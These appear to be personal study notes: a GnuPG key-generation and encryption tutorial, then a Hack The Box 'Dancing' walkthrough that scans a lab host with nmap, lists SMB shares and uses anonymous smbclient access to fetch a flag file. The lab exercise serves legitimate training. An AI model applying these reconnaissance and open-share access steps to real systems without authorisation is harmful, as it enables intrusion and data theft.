 # Security Exercises 

### openpgp for cryptographic key sharing on linux kernel

`gpg --list-keys`

the list will show on terminal as following
pub...
uid...

use the following command to generate your own personal key!
`gpg --full-generate-key`

```bash
gpg (GnuPG) 2.2.32; Copyright (C) 2021 Free Software Foundation, Inc.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

Please select what kind of key you want:
   (1) RSA and RSA (default)
   (2) DSA and Elgamal
   (3) DSA (sign only)
   (4) RSA (sign only)
  (14) Existing key from card
Your selection? 

1 

RSA keys may be between 1024 and 4096 bits long.
What keysize do you want? (3072)

3072

Requested keysize is 3072 bits
Please specify how long the key should be valid.

Please specify how long the key should be valid.
         0 = key does not expire
      <n>  = key expires in n days
      <n>w = key expires in n weeks
      <n>m = key expires in n months
      <n>y = key expires in n years
Key is valid for? (0) 

Key does not expire at all 
Is this correct (y/N) y

GnuPG needs to construct a user ID to identify your key

Real name: xxx
Email address: xxx@xxx.com
Comment:
You selected this USER-ID: 
  "xxx <xxx@xxx.com>"

Change (N)ame, (C)omment, (E)mail or (O)kay/(Q)uit?

o

We need to generate a lot of random bytes. It is a good idea to perform
some other action (type on the keyboard, move the mouse, utilize the
disks) during the prime generation; this gives the random number
generator a better chance to gain enough entropy.
We need to generate a lot of random bytes. It is a good idea to perform
some other action (type on the keyboard, move the mouse, utilize the
disks) during the prime generation; this gives the random number
generator a better chance to gain enough entropy.
gpg: key C9363C374D7A30D6 marked as ultimately trusted
gpg: revocation certificate stored as '/home/chae/.gnupg/openpgp-revocs.d/8533F3FA4572075FA5D655BCC9someverylonghashwithnumbers.rev'
public and secret key created and signed.

pub rsaxxx
uid xxx <xxx@xxx.com>
sub rsaxxx 
```
`gpg --list-secret-keys`

```bash
sec rsa_xxx
uid
ssb
```

now let's export the new key
`gpg --armor --ouptut public-key-of-xxx.asc --export xxx@xxx.com `

you get a result somewhat like this...
```bash
-----BEGIN PGP PUBLIC KEY BLOCK-----
.............................................
.............................................
-----END PGP PUBLIC KEY BLOCK-----
```
you can also have some fun encryptingand decrypting files using the generated key
`gpg --output encryptedfile.gpg --encrypt --sign --armor --recipient yyy@yyy.com`
`gpg --import encryptedfile.gpg`
`gpg --decrypt encryptedfile > decryptedfile.txt`

this outputs the following
`gpg: encrypted with 3072-bit RSA key, ID xxxx, created xxxx-xx-xx`

### Hackthebox -Starting-point-Dancing exercise

`nmap -sV 10.129.110.188`

nmap command shows services running on respective ports
```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-01 18:16 CET
Nmap scan report for 10.129.110.188
Host is up (0.030s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.70 seconds
```

smb refers to server message block, a common client server communication protocol 
You can use smbclient to access the smb share
Use help command to see command usage
`smbclient -h`

```bash
Usage: smbclient [-?EgqBNPkV] [-?|--help] [--usage] [-M|--message=HOST]
        [-I|--ip-address=IP] [-E|--stderr] [-L|--list=HOST] [-T|--tar=<c|x>IXFvgbNan]
        [-D|--directory=DIR] [-c|--command=STRING] [-b|--send-buffer=BYTES]
        [-t|--timeout=SECONDS] [-p|--port=PORT] [-g|--grepable] [-q|--quiet]
        [-B|--browse] [-d|--debuglevel=DEBUGLEVEL] [--debug-stdout]
        [-s|--configfile=CONFIGFILE] [--option=name=value]
        [-l|--log-basename=LOGFILEBASE] [--leak-report] [--leak-report-full]
        [-R|--name-resolve=NAME-RESOLVE-ORDER] [-O|--socket-options=SOCKETOPTIONS]
        [-m|--max-protocol=MAXPROTOCOL] [-n|--netbiosname=NETBIOSNAME]
        [--netbios-scope=SCOPE] [-W|--workgroup=WORKGROUP] [--realm=REALM]
        [-U|--user=[DOMAIN/]USERNAME[%PASSWORD]] [-N|--no-pass] [--password=STRING]
        [--pw-nt-hash] [-A|--authentication-file=FILE] [-P|--machine-pass]
        [--simple-bind-dn=DN] [--use-kerberos=desired|required|off]
        [--use-krb5-ccache=CCACHE] [--use-winbind-ccache]
        [--client-protection=sign|encrypt|off] [-k|--kerberos] [-V|--version]
        [OPTIONS] service <password>
```


Use smbclient command to connect to ip address of target machine given on hackthebox
`sudo smbclient -L 10.129.110.188`

```bash

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk  
```

use command to get into disk
`smbclient \\\\10.129.110.188\\Workshares`

you're inside! now look around and capture the flag
```bash
smb: \> ls
  .                                   D        0  Mon Mar 29 10:22:01 2021
  ..                                  D        0  Mon Mar 29 10:22:01 2021
  Amy.J                               D        0  Mon Mar 29 11:08:24 2021
  James.P                             D        0  Thu Jun  3 10:38:03 2021

                5114111 blocks of size 4096. 1751194 blocks available
smb: \> cd Amy.J
smb: \Amy.J\> ls
  .                                   D        0  Mon Mar 29 11:08:24 2021
  ..                                  D        0  Mon Mar 29 11:08:24 2021
  worknotes.txt                       A       94  Fri Mar 26 12:00:37 2021

                5114111 blocks of size 4096. 1751178 blocks available
smb: \Amy.J\> 
smb: \Amy.J\> Amy.j
Amy.j: command not found
smb: \Amy.J\> cd /
smb: \> cd James.P
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 10:38:03 2021
  ..                                  D        0  Thu Jun  3 10:38:03 2021
  flag.txt                            A       32  Mon Mar 29 11:26:57 2021

                5114111 blocks of size 4096. 1751178 blocks available
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0,2 KiloBytes/sec) (average 0,2 KiloBytes/sec)
```
